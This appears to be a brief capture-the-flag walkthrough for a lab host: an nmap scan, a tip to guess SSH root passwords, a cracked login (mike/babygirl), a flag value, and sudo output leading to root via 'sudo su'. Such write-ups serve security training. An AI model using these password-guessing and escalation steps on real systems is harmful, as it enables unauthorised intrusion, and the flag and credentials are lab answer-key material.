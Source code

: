 target :  10.150.150.166 
```
└─# nmap -sV -p- --open --min-rate 4000  10.150.150.166 
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
8089/tcp open  ssl/http Splunkd httpd
```
always if you want to connect to an ssh that you don't know use -v  or just if you see an ssh open port try first to connect using root and unknown pass:
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
root@10.150.150.166's password:

```[22][ssh] host: 10.150.150.166   login: mike   password: babygirl```
```
sudo -l
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
```
    Now just sudo su